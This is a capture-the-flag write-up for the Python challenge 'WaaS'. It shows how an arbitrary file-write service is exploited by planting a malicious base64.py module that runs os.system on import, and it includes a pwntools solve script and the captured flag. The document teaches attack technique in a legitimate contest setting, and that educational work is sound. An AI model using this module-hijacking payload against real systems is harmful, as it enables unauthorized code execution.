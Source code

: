 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
  "491 points",
  "78 solves",
  "NoobMaster + NoobHacker"
]
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Waas</h1>

**Description**: Writing as a Service!

## Introduction

WaaS (Writing as a Service) allows us to overwrite a file on the system (after some input validation) and insert anything (until a newline is met) we want in it.

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

At first one may think of trying to bypass the input validation to perhaps rewrite the workings of the cat command or the challenge file itself, but this isn't possible.
Something very bizarre is the imported but unused `b64decode` from the `base64` module, which is what allows us to solve the challenge.
When python imports modules it looks in `sys.path`, which has a list of valid directories to import modules from. After a quick scan through the [python3 docs](https://docs.python.org/3/library/sys_path_init.html) we find out that the first directory it looks through is the same directory the file is in, this means that if we have a `base64.py` file in the directory then python will try to import a `b64decode` symbol from that file instead of the common known module.
One more feature of python's import behavior we can use is the that all the code in an imported module will be executed. For example if a file `test.py` has `print('Hello, World!')` and it can be executed (for example if it's at the lowest indentation level) then a file with `import test` will indeed see `Hello, World!` printed to `stdout`.
Therefore, since the `open` function with a `'w'` flag will create a file if it does not exist, we can simply create a file named `base64.py` and write our malicious code in it.
Something like this will do the trick:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

But the flag isn't our yet; we need to use the fact that the instance does not reset its files every time we connect to it, which means that our `base64.py` will remain in the directory for the lifetime of the instance. This means we simply need to reconnect to it and get our flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```
flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
